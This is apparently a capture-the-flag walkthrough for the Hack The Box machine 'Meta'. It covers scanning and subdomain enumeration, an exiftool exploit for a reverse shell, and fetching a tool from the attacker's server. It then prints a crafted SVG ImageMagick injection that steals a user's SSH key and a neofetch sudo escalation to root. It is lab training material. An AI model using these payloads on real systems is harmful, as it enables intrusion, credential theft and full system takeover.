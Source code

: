 # [Meta](https://app.hackthebox.com/machines/meta)

```bash
nmap -p- --min-rate 10000 10.10.11.140 -Pn
```

![Alt text](img/image.png)


After detection of open ports (22,80), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.140 -Pn 
```

![Alt text](img/image-1.png)

It automatically redirects into 'artcorp.htb', let's add this into '/etc/hosts' file.


Let's do subdomain enumeration.

```bash
ffuf -u http://artcorp.htb/ -H "Host: FUZZ.artcorp.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```

![Alt text](img/image-2.png)

Let's add 'dev01.artcorp.htb' into '/etc/hosts' file, too.

I browse this application.

![Alt text](img/image-3.png)


I just understand that I give image file (png or jpg) and it returns `exiftool` result to me.

![Alt text](img/image-4.png)


I searched publicly known exploit for `exiftool`.

That's [CVE-2021-22204](https://github.com/UNICORDev/exploit-CVE-2021-22204.git).


```bash
python3 exploit-CVE-2021-22204.py -s 10.10.14.4 1337
```

![Alt text](img/image-5.png)


After uploading malicious image file into application, I got reverse shell from port 1337.

![Alt text](img/image-6.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-7.png)


Let's upload `pspy64` to identify hidden processes.

1.First, let's open HTTP server.
```bash
python3 -m http.server --bind 10.10.14.4 8080
```

![Alt text](img/image-8.png)


2.Second, we need to upload `pspy64` into target machine.
```bash
wget http://10.10.14.4:8080/pspy64
```

![Alt text](img/image-9.png)


After running of `pspy64`, I see that `mogrify` process is running.

![Alt text](img/image-10.png)


Let's look at the version of `mogrify`.

![Alt text](img/image-11.png)

I found a exploit for this version of mogrify whose id is [CVE-2020-29599](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)


So that, first I need to create malicious .svg file (whic reads private key (id_rsa) of '**thomas**' user) and upload this into Meta application (website checks via `exiftool`).

```svg
<image authenticate='ff" `cat /home/thomas/.ssh/id_rsa > /dev/shm/key`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

And we need to upload this malicious `.svg` file into this directory called '/var/www/dev01.artcorp.htb/convert_image' which will be executed by bash script called '**convert_images.sh**'.



I got id_rsa file as below.

![Alt text](img/image-12.png)


I copied this private_key (id_rsa) file into my machine, change the permissions of private key.

```bash
chmod 600 id_rsa
ssh -i id_rsa thomas@10.10.11.140
```

user.txt

![Alt text](img/image-13.png)


I just check my user's privileges via `sudo -l` command.

![Alt text](img/image-14.png)


I found a [exploit](https://gtfobins.github.io/gtfobins/neofetch/#shell) on GTFObins.

But GTFobins exploit's doesn't work as becuase 'XDG_CONFIG_HOME' variable for `thomas` user.


```bash
echo 'exec /bin/sh' > .config/neofetch/config.conf 
XDG_CONFIG_HOME=~/.config sudo neofetch
```


root.txt

![Alt text](img/image-15.png)
